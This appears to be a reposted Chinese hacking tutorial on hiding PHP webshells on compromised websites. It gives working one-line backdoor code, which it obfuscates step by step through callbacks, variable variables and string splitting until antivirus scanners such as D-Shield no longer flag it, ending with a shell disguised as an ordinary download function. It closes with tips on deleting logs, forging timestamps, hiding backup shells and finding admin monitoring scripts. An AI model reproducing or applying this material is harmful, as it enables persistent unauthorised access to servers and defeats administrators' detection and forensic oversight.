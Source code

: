 # 如何优雅的隐藏你的 Webshell

url：https://www.wangan.com/articles/3152



拿下一个站后总希望自己的后门能够很隐蔽！不让网站管理员或者其他的 Hacker 发现，网上关于隐藏后门的方法也很多，如加密、包含，解析漏洞、加隐藏系统属性等等，但大部分已经都不实用了，随便找一个查马的程序就能很快的查出来，下面分享我总结的一些经验：

制作免杀 webshell
隐藏 webshell 最主要的就是做免杀，免杀做好了，你可以把 webshell 放在函数库文件中或者在图片马中，太多地方可以放了，只要查杀工具查不到，你的这个 webshell 就能存活很长时间，毕竟管理员也没有那么多精力挨个代码去查看。

命令执行的方法
直接执行
使用 php 函数直接运行命令，常见的函数有 (eval、system、assert) 等，可以直接调用命令执行。

@eval('echo 这是输出;');


动态函数执行
我们先把一个函数名当成一个字符串传递给一个变量，在使用变量当作函数去执行

$a="phpinfo";$a();


文件包含执行
有两个 php 文件，我们把执行命令的放在文件 b 中，使用文件 a 去包含，达到执行的效果

b.php
<?php
@eval('echo 这是输出;');

a.php
<?php
include a.php


回调函数
将想要执行命令的函数赋值给一个变量，再用一个可以调用函数执行的函数把变量解析成函数，这么说可能有点绕，看一下 array_map 函数的用法：array_map 函数中将 $arr 每个元素传给 func 函数去执行，例子：

<?php
$func = 'system';
$arr = array('whoami');
array_map($func, $arr);


PHP Curly Syntax
我们可以理解为字符串中掺杂了变量，再使用变量去拼接字符串，达到命令执行的效果

<?php
$a = 'p';
eval("{$a}hpinfo();");


php 反序列化
这是根据 php 反序列化漏洞来实现命令执行，可以先创建一个反序列化的漏洞文件，再去调用反序列化函数 unserialize

<?php

class test{
    public $a="123";
    public function __wakeup(){
        eval($this->a);
    }
}
unserialize('O:4:"test":1:{s:1:"a";s:10:"phpinfo();";}');


php://input 方法
php://input 可以访问请求的原始数据的只读流，我们可以理解为我们传 post 参数，php://input 会读取到，这时候我们就可以加以利用了

<?php
@eval(file_get_contents('php://input'));


preg_replace 方法
preg_replace 函数执行一个正则表达式的搜索和替换。我们可以使用一个命令执行函数去替换正常的字符串，然后去执行命令

<?php
echo preg_replace("/test/e",phpinfo(),"jutst test");


ob_start
ob_start 函数是打开输出控制缓冲，传入的参数会在使用 ob_end_flush 函数的时候去调用它执行输出在缓冲区的东西

<?php
$cmd = 'system';
ob_start($cmd);
echo "whoami";
ob_end_flush();//输出全部内容到浏览器


编写免杀
上面说了那么多其实都是一句话木马的思路，每一种方式都可以写成一句话木马，而想要免杀常常会多种组合到一起，下面从最简单的木马一步步变形，达到免杀的目的

assert($_POST['x']);


这种就是最简单的一句话木马，使用 D 盾扫一下，可以看到 5 级，没有什么好说的

动态函数方法，把 assert 这个函数赋值两次变量，再把变量当成函数执行

$a = "assert";
$b = $a;
$b($_POST['x']);


回调函数方法，把 assert 函数当作参数传给 array_map 去调用执行

<?php
$fun = 'assert';
array_map($fun,array($_POST['x']));


可以看到上面的都是通过两种方法的结合，简单的处理一下，就变成了 4 级，感兴趣的可以把其他的方法都尝试一下，4 级的很简单，我们去看看 3 级的都是怎么处理的

通过上面的动态函数方法我们可以思考，函数可以当成字符串赋值给变量，那么变量也一定能当成字符串赋值给变量，但调用时需要用 $$

<?php
$a = "assert";
$c ='a';
$$c($_POST['x']);


我们在把这种方法结合到回调函数方法中，可以看到，已经是 2 级了

<?php
$fun = 'assert';
$f = 'fun';
array_map($$f,array($_POST['x']));


这时候我们看一下 D 盾中的说明：array_map中的参数可疑，我们这时候可以用函数封装一下参数

<?php
function ass(){
    $a = "a451.ass.aaa.ert.adaww";
    $b = explode('.',$a);
    $c = $b[1] . $b[3];
    return $c;
}
$b = array($_POST['x']);
$c = ass();
array_map($c,$b);


1 级了，离目标近在咫尺了，这时候我们应该考虑让一句话木马像正常的代码，在好好的封装一下

<?php
function downloadFile($url,$x){
    $ary = parse_url($url);
    $file = basename($ary['path']);
    $ext = explode('.',$file);
    // assert
    $exec1=substr($ext[0],3,1);
    $exec2=substr($ext[0],5,1);
    $exec3=substr($ext[0],5,1);
    $exec4=substr($ext[0],4,1);
    $exec5=substr($ext[0],7,2);
    $as[0] = $exec1 . $exec2 . $exec3 . $exec4 . $exec5;
    $as[1] = $x;
    return $as;
}
$a = $_POST['x'];
$s  = downloadFile('http://www.baidu.com/asdaesfrtafga.txt',$a);
$b = $s[0];
$c = $s[1];
array_map($b,array($c));


再试试其他免杀工具

WebShellKiller：



安全狗：



微步云沙箱



再试试可不可以连接没有问题，完美！！



更好的隐藏 webshell 一些建议
1、拿到权限以后，把网站日志中的所有关于 webshell 的访问记录和渗透时造成的一些网站报错记录全部删除

2、把 webshell 的属性时间改为和同目录文件相同的时间戳，比如 linux 中的 touch 就是非常好的工具

3、目录层级越深越好，平时网站不出问题的话，一般四五级目录很少会被注意到，尽量藏在那些程序员和管理员都不会经常光顾的目录中比如：第三方工具的一些插件目录，主题目录，编辑器的图片目录以及一些临时目录

4、利用 php.ini 配置文件隐藏 webshell, 把 webshell 的路径加入到配置文件中

5、尝试利用静态文件隐藏一句话，然后用.htaccess 规则进行解析

6、上传个精心构造的图片马，然后再到另一个不起眼的正常的网站脚本文件中去包含这个图片马

7、靠谱的方法就是直接把一句话插到正常的网站脚本文件里面，当然最好是在一个不起眼的地方，比如：函数库文件，配置文件里面等等，以及那些不需要经常改动的文件……

8、如果有可能的话，还是审计下目标的代码，然后想办法在正常的代码中构造执行我们自己的 webshell, 即在原生代码中执行 webshell

9、webshell 里面尽量不要用类似 eval 这种过于敏感的特征，因为 awk 一句话就能查出来，除了 eval, 还有，比如:exec,system,passthru,shell_exec,assert 这些函数都最好不要用，你可以尝试写个自定义函数，不仅能在一定程度上延长 webshell 的存活时间也加大了管理员的查找难度，也可以躲避一些功能比较简陋 waf 查杀，此外，我们也可以使用一些类似:call_user_func,call_user_func_array, 诸如此类的回调函数特性来构造我们的 webshell, 即伪造正常的函数调用

10、webshell 的名字千万不要太扎眼，比如:hack.php,sb.php,x.php 这样的名字严禁出现……, 在给 webshell 起名的时候尽量跟当前目录的，其他文件的名字相似度高一点，这样相对容易混淆视听，比如：目录中有个叫 new.php 的文件，那你就起个 news.php

11、如果是大马的话，尽量把里面的一些注释和作者信息全部都去掉，比如 intitle 字段中的版本信息等等，用任何大马之前最好先好好的读几遍代码，把里面的 shell 箱子地址全部去掉推荐用开源的大马，然后自己拿过来仔细修改，记住，我们的 webshell 尽量不要用加密，因为加密并不能很好的解决 waf 问题，还有，大马中一般都会有个 pass 或者 password 字符，建议把这些敏感字段全部换成别的，因为利用这样的字符基本一句话就能定位到

12、养成一个好习惯，为了防止权限很快丢失，最好再同时上传几个备用 webshell, 注意，每个 webshell 的路径和名字千万不要都一样更不要在同一个目录下，多跳几层，记住，确定 shell 正常访问就可以了，不用再去尝试访问看看解析是否正常，因为这样就会在日志中留下记录，容易被查到

13、当然，如果在拿到服务器权限以后，也可以自己写个脚本每隔一段时间检测下自己的 webshell 是否还存在，不存在就创建

14、在有权限的情况，看看管理员是否写的有动态 webshell 监测脚本，务必把脚本找出来，crontab 一般都能看见了

